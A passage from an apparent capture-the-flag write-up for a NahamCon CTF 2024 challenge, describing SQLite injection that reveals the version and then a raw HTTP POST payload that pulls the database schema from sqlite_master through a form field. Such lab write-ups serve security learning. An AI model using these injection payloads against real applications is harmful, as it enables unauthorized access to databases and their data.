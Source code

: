 ![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527132354.png)

Nice! It worked! The server uses SQLite version `3.31.1`!

Now, let's **enumerate the database's structure**!

According to [PayloadsAllTheThings SQLite Injection Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version), we can **get the database structure via table `sqlite_schema` or `sqlite_master`**.

**Payload:**
```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sql+FROM+sqlite_master));--+-
```
